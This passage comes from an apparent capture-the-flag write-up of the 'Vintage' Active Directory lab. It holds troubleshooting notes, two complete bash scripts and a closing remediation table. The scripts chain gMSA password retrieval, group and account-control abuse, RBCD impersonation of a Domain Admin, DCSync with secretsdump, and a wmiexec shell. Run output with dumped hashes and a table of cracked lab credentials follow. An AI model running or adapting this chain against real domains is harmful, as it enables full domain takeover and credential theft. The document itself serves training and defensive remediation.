c.neri_adm : Uncr4ck4bl3P4ssW0rd0312 (GenericWrite/AddSelf on DelegatedAdmins)
    │  add FS01$ to DelegatedAdmins → RBCD on DC01$
    ▼
Impersonate L.BIANCHI_ADM (Domain Admin) → DCSync
    │
    ▼
Administrator NTLM hash + shell as L.BIANCHI_ADM → root.txt
```

---

## 9. Issues Encountered & Resolutions

This section documents the practical troubleshooting performed during the engagement — most stemming from the domain's NTLM-disabled, Kerberos-only configuration and a live cleanup/reset job running on the target.

### Issue 1 — Clock Skew (`KRB_AP_ERR_SKEW`)
Kerberos operations began failing with `Clock skew too great` after a period of tool use. Nmap had already flagged a 3m31s skew during initial recon.
**Fix:**
```bash
hyena@hyena$ sudo ntpdate dc01.vintage.htb
```
All subsequent Kerberos operations required a synced clock; this needed to be re-verified periodically throughout the engagement.

### Issue 2 — `getTGT.py`/`bloodyAD` connectivity failures (wrong target IP)
Several commands were initially run against a stale IP (`10.10.11.45`, left over from write-up reference material) instead of the actual assigned target (`10.129.231.205`), producing `OSError: [Errno 113] No route to host` and similar failures. Resolved by consistently using the correct target IP and confirming `dc01.vintage.htb` resolution via `/etc/hosts`.

### Issue 3 — NTLM disabled domain-wide
Numerous tools defaulted to NTLM authentication and failed with `STATUS_LOGON_TYPE_NOT_GRANTED` or `SEC_E_UNSUPPORTED_FUNCTION` (e.g., `smbclient.py` with `-hashes`, `bloodyAD` with plain `-u/-p`, `evil-winrm` with `-H`). **Fix:** force Kerberos authentication throughout (`-k` flags, `kinit`/`getTGT.py`-issued ccache files) rather than NTLM/pass-the-hash.

### Issue 4 — Administrator account restricted from network logon
Even after obtaining a valid Administrator NTLM hash and AES key via DCSync, direct shell access (`wmiexec.py`, `evil-winrm`, `smbclient.py`) consistently failed with `STATUS_LOGON_TYPE_NOT_GRANTED`. This is a deliberate account restriction on Administrator, not a ticket/config problem.
**Fix:** pivot to impersonating `L.BIANCHI_ADM` (a Domain Admin without this restriction) via the RBCD chain instead of using Administrator directly.

### Issue 5 — `KDC_ERR_BADOPTION` on S4U2Proxy despite correct RBCD configuration
The RBCD delegation chain (`FS01$`/`SVC_SQL` → `DelegatedAdmins` → impersonate `L.BIANCHI_ADM`) repeatedly failed with `KDC_ERR_BADOPTION`, even after confirming:
- the RBCD ACE on `DC01$` correctly named `DelegatedAdmins` as trustee,
- `FS01$`/`SVC_SQL` group membership was current,
- tickets were forwardable,
- SPNs were present,
- domain functional level supported RBCD.

**Root cause:** a cleanup/reset script running on the target periodically reverts changes (re-disabling `SVC_SQL`, stripping group memberships/SPNs). Manual, multi-step execution left enough of a time gap between configuration and exploitation for the cleanup job to intervene mid-attack.
**Fix:** automate the entire chain (enable account → set SPN → add to `DelegatedAdmins` → request TGT → S4U2Proxy) into a single uninterrupted script, eliminating the window for the cleanup job to revert state. See §10 below.

### Issue 6 — `bloodyAD` crashing with `IndexError: list index out of range`
Passing `--host` with certain flag orderings caused `bloodyAD` to crash internally while parsing the realm from the hostname. Root cause was inconsistent/incorrect invocation syntax across the session (mixing `-i`, `--host`, and malformed hash arguments); resolved by standardizing on the documented `--host <fqdn> -d <domain> -k -u <user> -p <pass>` invocation pattern.

### Issue 7 — `ldapmodify`/`kinit` with keytab failures (`Cannot find KDC for realm`, wrong realm in keytab)
Attempts to bypass `bloodyAD` using raw `ldapmodify -Y GSSAPI` and a manually created keytab failed due to local `/etc/krb5.conf`/`KRB5_CONFIG` misconfiguration (at one point pointing to an unrelated realm, `SCRM.LOCAL`, left over from a different target). **Fix:** abandoned this path in favor of using already-working tooling (`bloodyAD` with correct auth, or a PowerShell/WinRM session as an authenticated domain user) rather than fighting local Kerberos config.

### Issue 8 — `RunasCs.exe` incompatibility
`RunasCs.exe` failed with `System.MissingMethodException` on the target due to a .NET Framework version mismatch. **Fix:** bypassed the tool entirely and ran target commands (`qwinsta`, etc.) directly within the existing Evil-WinRM PowerShell session instead.

### Issue 9 — No active RDP sessions for cross-session relay
`qwinsta` returned `No session exists for *`, ruling out `RemotePotato0`-style cross-session NTLM relay as an escalation path at the time of testing. Pivoted to the ADCS-check → (ADCS not installed, per machine synopsis) → DPAPI/RBCD path instead, which was the intended route.

### Issue 10 — Large file transfer timeouts over SMB
`smbclient`'s `mget *` on large `.wim` files intermittently failed with `NT_STATUS_IO_TIMEOUT` when downloading multiple files in parallel. **Fix:** download files sequentially, one `get` at a time, rather than using `mget`.

---

## 10. Automation Script

Given Issue #5 above, the entire RBCD chain needed to run as a single uninterrupted sequence to avoid the target's cleanup job reverting state mid-attack.

### 10.1 Final / Refined Version (Succeeded End-to-End)

Uses the correct target IP throughout, adds `P.Rosa` to `SERVICEMANAGERS` instead of relying solely on `GMSA01$`, and scopes the final `secretsdump.py` call with `-just-dc-user administrator`.

```bash
#!/bin/bash

# Define colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[0;33m'
BLUE='\033[0;34m'
NC='\033[0m' # No Color

DC_IP="10.129.231.205"

print_header() {
    echo -e "${YELLOW}======================================================================${NC}"
    echo -e "${YELLOW}$1${NC}"
    echo -e "${YELLOW}======================================================================${NC}"
}

print_success() {
    echo -e "${GREEN}[+] Success: $1${NC}"
}

print_error() {
    echo -e "${RED}[-] Error: $1${NC}"
    exit 1
}

run_bloodyAD() {
    echo -e "${BLUE}[*] Running: bloodyAD $@${NC}"
    bloodyAD "$@"
    if [ $? -ne 0 ]; then
        print_error "Command failed - bloodyAD $@"
    fi
}

# Step 0: Get TGT for FS01$
print_header "Step 0: Getting TGT for FS01\$"
getTGT.py vintage.htb/'FS01$':'fs01' -dc-ip $DC_IP
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for FS01\$"
fi
export KRB5CCNAME=FS01\$.ccache
print_success "TGT for FS01\$ obtained and KRB5CCNAME set."
echo

# Step 1: Get managed password for GMSA01$
print_header "Step 1: Getting managed password for GMSA01\$"
run_bloodyAD --host dc01.vintage.htb --domain "vintage.htb" --dc-ip $DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword
print_success "Managed password for GMSA01\$ retrieved."
echo

# Step 2: Get TGT for GMSA01$
GMSA01_HASH="03d5bd36d009a6b2d96367b1b4431a12"
print_header "Step 2: Getting TGT for GMSA01\$"
getTGT.py vintage.htb/'GMSA01$' -hashes aad3b435b51404eeaad3b435b51404ee:$GMSA01_HASH -dc-ip $DC_IP
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for GMSA01\$"
fi
export KRB5CCNAME=GMSA01\$.ccache
print_success "TGT for GMSA01\$ obtained and KRB5CCNAME set."
echo

# Step 3: Add P.Rosa to SERVICEMANAGERS group
print_header "Step 3: Adding P.Rosa to SERVICEMANAGERS group"
run_bloodyAD --host dc01.vintage.htb --domain vintage.htb --dc-ip $DC_IP -k add groupMember "SERVICEMANAGERS" "P.Rosa"
print_success "P.Rosa added to SERVICEMANAGERS group."
echo

# Step 4: Get TGT for P.Rosa
print_header "Step 4: Getting TGT for P.Rosa"
getTGT.py vintage.htb/'P.Rosa':'Rosaisbest123' -dc-ip $DC_IP
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for P.Rosa"
fi
export KRB5CCNAME=P.Rosa.ccache
print_success "TGT for P.Rosa obtained and KRB5CCNAME set."
echo

# Step 5: Enabling SVC_SQL account by removing ACCOUNTDISABLE flag
print_header "Step 5: Removing ACCOUNTDISABLE flag from SVC_SQL"
run_bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip $DC_IP -k remove uac SVC_SQL -f ACCOUNTDISABLE
print_success "ACCOUNTDISABLE flag removed from SVC_SQL."
echo

# Step 6: Set servicePrincipalName for SVC_SQL
print_header "Step 6: Setting servicePrincipalName for SVC_SQL"
run_bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip $DC_IP -k set object 'SVC_SQL' servicePrincipalName -v 'cifs/sql'
print_success "servicePrincipalName set for SVC_SQL."
echo

# Step 7: Get TGT for c.neri_adm
print_header "Step 7: Getting TGT for c.neri_adm"
getTGT.py vintage.htb/'c.neri_adm':'Uncr4ck4bl3P4ssW0rd0312' -dc-ip $DC_IP
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for c.neri_adm"
fi
export KRB5CCNAME=c.neri_adm.ccache
print_success "TGT for c.neri_adm obtained and KRB5CCNAME set."
echo

# Step 8: Add SVC_SQL to DELEGATEDADMINS group
print_header "Step 8: Adding SVC_SQL to DELEGATEDADMINS group"
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip $DC_IP -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
print_success "SVC_SQL group membership step complete (already-a-member is OK)."
echo

# Step 9: Get TGT for svc_sql
print_header "Step 9: Getting TGT for svc_sql"
getTGT.py 'vintage.htb/svc_sql:Zer0the0ne' -dc-ip $DC_IP
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for svc_sql"
fi
export KRB5CCNAME=svc_sql.ccache
print_success "TGT for svc_sql obtained and KRB5CCNAME set."
echo

# Step 10: Get Service Ticket for L.BIANCHI_ADM
print_header "Step 10: Getting Service Ticket for L.BIANCHI_ADM"
getST.py -dc-ip $DC_IP -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -k 'vintage.htb/svc_sql:Zer0the0ne'
if [ $? -ne 0 ]; then
    print_error "getST.py failed for L.BIANCHI_ADM"
fi
export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
print_success "Service Ticket for L.BIANCHI_ADM obtained and KRB5CCNAME set."
echo

# Step 11: Dump secrets using secretsdump.py
print_header "Step 11: Dumping secrets using secretsdump.py"
secretsdump.py -k -no-pass dc01.vintage.htb -dc-ip $DC_IP -just-dc-user administrator
if [ $? -ne 0 ]; then
    print_error "secretsdump.py failed"
fi
print_success "Secrets dumped successfully."
echo

# Step 12: Get a shell as L.BIANCHI_ADM
print_header "Step 12: Connecting via wmiexec as L.BIANCHI_ADM"
echo -e "${BLUE}[*] Run manually: wmiexec.py -k -no-pass L.BIANCHI_ADM@dc01.vintage.htb -dc-ip $DC_IP${NC}"

echo -e "${GREEN}All commands executed successfully!${NC}"
```

**Result of full run:**

```
[*] Saving ticket in FS01$.ccache
[+] Success: TGT for FS01$ obtained and KRB5CCNAME set.
[+] Managed password for GMSA01$ retrieved.
[*] Saving ticket in GMSA01$.ccache
[+] P.Rosa added to SERVICEMANAGERS
[*] Saving ticket in P.Rosa.ccache
[+] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
[+] SVC_SQL's servicePrincipalName has been updated
[*] Saving ticket in c.neri_adm.ccache
[+] fs01$ (already a member of DELEGATEDADMINS)
[*] Saving ticket in svc_sql.ccache
[*] Impersonating L.BIANCHI_ADM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
Administrator:aes256-cts-hmac-sha1-96:5f22c4cf44bc5277d90b8e281b9ba3735636bd95a72f3870ae3de93513ce63c5
All commands executed successfully!
```

Followed by:

```bash
hyena@hyena$ export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
hyena@hyena$ wmiexec.py -k -no-pass L.BIANCHI_ADM@dc01.vintage.htb -dc-ip 10.129.231.205
```

resulting in code execution as `L.BIANCHI_ADM` and access to `root.txt`.

### 10.2 Earlier Draft (As Provided, Unedited)

This is the earlier, unrefined draft that led directly to Issue #2 (wrong target IP) and contributed to Issue #5 (`KDC_ERR_BADOPTION`), included here in full and exactly as supplied for traceability. It still points at a stale reference IP (`10.10.11.45`), contains an earlier/different `GMSA01$` NTLM hash (`7dc430b95e17ed6f817f69366f35be06`) from before a password rotation, has a typo in the Step 10 password (`Zer0the0n` instead of `Zer0the0ne`), and uses a plain `KRB5CCNAME=L.BIANCHI_ADM.ccache` / unscoped `secretsdump.py -k dc01.vintage.htb` rather than the `-just-dc-user administrator`-scoped call in the final version above.

```bash
#!/bin/bash

# Define colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[0;33m'
BLUE='\033[0;34m'
NC='\033[0m' # No Color

# Function to print a header for each step
print_header() {
    echo -e "${YELLOW}======================================================================${NC}"
    echo -e "${YELLOW}$1${NC}"
    echo -e "${YELLOW}======================================================================${NC}"
}

# Function to print a success message
print_success() {
    echo -e "${GREEN}[+] Success: $1${NC}"
}

# Function to print an error message and exit
print_error() {
    echo -e "${RED}[-] Error: $1${NC}"
    exit 1
}

# Function to run bloodyAD commands
run_bloodyAD() {
    echo -e "${BLUE}[*] Running: bloodyAD $@${NC}"
    bloodyAD "$@"
    if [ $? -ne 0 ]; then
        print_error "Command failed - bloodyAD $@"
    fi
}

# Step 0: Get TGT for FS01$
print_header "Step 0: Getting TGT for FS01$"
getTGT.py vintage.htb/'FS01$':'fs01'
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for FS01$"
fi
export KRB5CCNAME=FS01$.ccache
print_success "TGT for FS01$ obtained and KRB5CCNAME set."
echo

# Step 1: Get managed password for GMSA01$
print_header "Step 1: Getting managed password for GMSA01$"
run_bloodyAD --host dc01.vintage.htb --domain "vintage.htb" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword
print_success "Managed password for GMSA01$ retrieved."
echo

# Step 2: Get TGT for GMSA01$
print_header "Step 2: Getting TGT for GMSA01$"
getTGT.py vintage.htb/'GMSA01$' -hashes aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for GMSA01$"
fi
export KRB5CCNAME=GMSA01$.ccache
print_success "TGT for GMSA01$ obtained and KRB5CCNAME set."
echo

# Step 3: Add P.Rosa to SERVICEMANAGERS group
print_header "Step 3: Adding P.Rosa to SERVICEMANAGERS group"
run_bloodyAD --host dc01.vintage.htb --domain vintage.htb --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
print_success "P.Rosa added to SERVICEMANAGERS group."
echo

# Step 4: Get TGT for P.Rosa
print_header "Step 4: Getting TGT for P.Rosa"
getTGT.py vintage.htb/'P.Rosa':'Rosaisbest123'
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for P.Rosa"
fi
export KRB5CCNAME=P.Rosa.ccache
print_success "TGT for P.Rosa obtained and KRB5CCNAME set."
echo

# Step 5: Enabling SVC_SQL account by Removing ACCOUNTDISABLE flag  
print_header "Step 5: Removing ACCOUNTDISABLE flag from SVC_SQL"
run_bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
print_success "ACCOUNTDISABLE flag removed from SVC_SQL."
echo

# Step 6: Set servicePrincipalName for SVC_SQL
print_header "Step 6: Setting servicePrincipalName for SVC_SQL"
run_bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k set object 'SVC_SQL' servicePrincipalName -v 'cifs/sql'
print_success "servicePrincipalName set for SVC_SQL."
echo

# Step 7: Get TGT for c.neri_adm
print_header "Step 7: Getting TGT for c.neri_adm"
getTGT.py vintage.htb/'c.neri_adm':'Uncr4ck4bl3P4ssW0rd0312'
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for c.neri_adm"
fi
export KRB5CCNAME=c.neri_adm.ccache
print_success "TGT for c.neri_adm obtained and KRB5CCNAME set."
echo

# Step 8: Add SVC_SQL to DELEGATEDADMINS group
print_header "Step 8: Adding SVC_SQL to DELEGATEDADMINS group"
run_bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
print_success "SVC_SQL added to DELEGATEDADMINS group."
echo

# Step 9: Get TGT for svc_sql
print_header "Step 9: Getting TGT for svc_sql"
getTGT.py 'vintage.htb/svc_sql:Zer0the0ne'
if [ $? -ne 0 ]; then
    print_error "getTGT.py failed for svc_sql"
fi
export KRB5CCNAME=svc_sql.ccache
print_success "TGT for svc_sql obtained and KRB5CCNAME set."
echo

# Step 10: Get Service Ticket for L.BIANCHI_ADM
print_header "Step 10: Getting Service Ticket for L.BIANCHI_ADM"
getST.py -dc-ip 10.10.11.45 -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -k 'vintage.htb/svc_sql:Zer0the0n'
if [ $? -ne 0 ]; then
    print_error "getST.py failed for L.BIANCHI_ADM"
fi
export KRB5CCNAME=L.BIANCHI_ADM.ccache
print_success "Service Ticket for L.BIANCHI_ADM obtained and KRB5CCNAME set."
echo

# Step 11: Dump secrets using impacket-secretsdump
print_header "Step 11: Dumping secrets using impacket-secretsdump"
secretsdump.py -k dc01.vintage.htb
if [ $? -ne 0 ]; then
    print_error "impacket-secretsdump failed"
fi
print_success "Secrets dumped successfully."
echo

echo -e "${GREEN}All commands executed successfully!${NC}"
```

---

## 11. Full Results Summary

| Item | Value |
|:-----|:------|
| **Target** | vintage.htb (10.129.231.205) |
| **Domain Controller** | dc01.vintage.htb |
| **Initial Foothold** | FS01$ (pre-created computer account) |
| **Domain Admin** | L.BIANCHI_ADM (impersonated via RBCD) |
| **User Flag** | Captured from C.Neri |
| **Root Flag** | Captured via L.BIANCHI_ADM shell after DCSync |

### Credentials Obtained

| User | Password/Hash |
|:-----|:--------------|
| **FS01$** | `fs01` |
| **gMSA01$** | `b3a15bbdfb1c53238d4b50ea2c4d1178` (NTLM) |
| **svc_sql** | `Zer0the0ne` |
| **C.Neri** | `Zer0the0ne` |
| **c.neri_adm** | `Uncr4ck4bl3P4ssW0rd0312` |
| **Administrator** | `468c7497513f8243b59980f2240a10de` (NTLM) |

### Tools Used

| Tool | Purpose |
|:-----|:--------|
| **nmap** | Port scanning |
| **nxc** | SMB/LDAP enumeration, RID brute force |
| **BloodHound** | ACL/relationship graphing |
| **impacket-getTGT** | Kerberos TGT acquisition |
| **bloodyAD** | AD object reads/writes (gMSA password, group membership, UAC, SPN) |
| **targetedKerberoast.py** | Kerberoasting without prior credentials |
| **hashcat** | Offline hash cracking |
| **kerbrute** | Password spraying |
| **evil-winrm** | WinRM shell access |
| **impacket-dpapi** | DPAPI master key / credential blob decryption |
| **impacket-getST** | S4U2Self/S4U2Proxy ticket requests |
| **impacket-secretsdump** | DCSync |
| **wmiexec.py** | Remote command execution |

---

## 12. Root Cause & Remediation

| # | Root Cause | Recommendation |
|---|------------|----------------|
| 1 | Pre-created computer account (`FS01$`) with password equal to `sAMAccountName` | Randomize and rotate computer account passwords immediately after provisioning |
| 2 | `Domain Computers` OU grants read on `msDS-ManagedPassword` for `gMSA01$` | Restrict gMSA managed-password read rights to only the specific principals that need it |
| 3 | `ServiceManagers` group grants `GenericAll` over multiple service accounts | Scope group-based rights tightly; avoid broad `GenericAll` grants on service account sets |
| 4 | Disabled accounts remain fully manageable via inherited `GenericAll` | Restrict who can modify `userAccountControl`/SPNs on sensitive accounts, even when disabled |
| 5 | Weak, crackable password on `svc_sql` | Enforce strong password policy on all service accounts |
| 6 | Password reuse (`svc_sql` = `C.Neri`) | Use unique passwords for all accounts; monitor for password spray attempts |
| 7 | DPAPI-protected credentials recoverable from a compromised user's profile | Avoid storing privileged credentials in Windows Credential Manager |
| 8 | `c.neri_adm` has `GenericWrite`/`AddSelf` on `DelegatedAdmins` | Audit and restrict ACLs on groups tied to delegation rights |
| 9 | `DelegatedAdmins` holds RBCD (`AllowedToActOnBehalfOfOtherIdentity`) rights over `DC01$` | Treat any principal/group with RBCD rights over a DC as Tier-0; restrict tightly |
| 10 | DCSync performed via forged/impersonated service ticket | Restrict DCSync rights to only necessary accounts; monitor `DRSGetNCChanges` calls |
| 11 | Administrator's network-logon restriction bypassed via a different Domain Admin account | Apply consistent logon restrictions across all privileged accounts, not just built-in Administrator |

---

*Assessment carried out from hyena@hyena against 10.129.231.205 (vintage.htb). Screenshots referenced above (`Vintage_intro.png`, `Bloodhound_analysis.png`, `Got_gMSA_hash.png`, `Kerberost_attack.png`, `Cracked_the_hash.png`, `Got_evil_rim.png`, `Got_administrator_hash.png`, `vintage_pwned.png`) are included as proof-of-concept evidence for their respective steps.*


